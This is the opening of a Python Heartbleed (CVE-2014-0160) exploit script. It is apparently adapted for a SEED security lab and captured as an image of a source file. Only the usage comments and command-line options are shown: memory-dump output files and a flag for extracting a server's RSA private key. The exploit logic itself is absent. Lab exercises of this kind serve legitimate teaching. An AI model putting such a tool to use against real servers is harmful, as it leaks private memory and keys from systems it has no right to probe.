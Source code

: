 # HeartbleedProject
#!/usr/bin/python

# added option to the payload length of the heartbeat payload
# Don't forget to "chmod 775 ./attack.py" to make the code executable 
# Use eg. "./attack.py www.seedlabelgg.com -l 0x4001" to send the heartbeat request with payload length variable=0x4001
# The author disclaims copyright to this source code.
# Code originally from https://gist.github.com/eelsivart/10174134


import sys, struct, socket, time, select, re, os
from optparse import OptionParser


options = OptionParser(usage='%prog server [options]', description='Test and exploit TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)')

options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

options.add_option('-l', '--length', type='int', default=0x4000,dest="len", help='payload length to test (default: 0x4000)')

options.add_option('-n', '--num', type='int', default=1, help='Number of times to connect/loop (default: 1)')

options.add_option('-s', '--starttls', action="store_true", dest="starttls", help='Issue STARTTLS command for SMTP/POP/IMAP/FTP/etc...')

options.add_option('-f', '--filein', type='str', help='Specify input file, line delimited, IPs or hostnames or IP:port or hostname:port')

options.add_option('-v', '--verbose', action="store_true", dest="verbose", help='Enable verbose output')

options.add_option('-x', '--hexdump', action="store_true", dest="hexdump", help='Enable hex output')

options.add_option('-r', '--rawoutfile', type='str', help='Dump the raw memory contents to a file')

options.add_option('-a', '--asciioutfile', type='str', help='Dump the ascii contents to a file')

options.add_option('-d', '--donotdisplay', action="store_true", dest="donotdisplay", help='Do not display returned data on screen')

options.add_option('-e', '--extractkey', action="store_true", dest="extractkey", help='Attempt to extract RSA Private Key, will exit when found. Choosing this enables -d, do not display returned data on screen.')
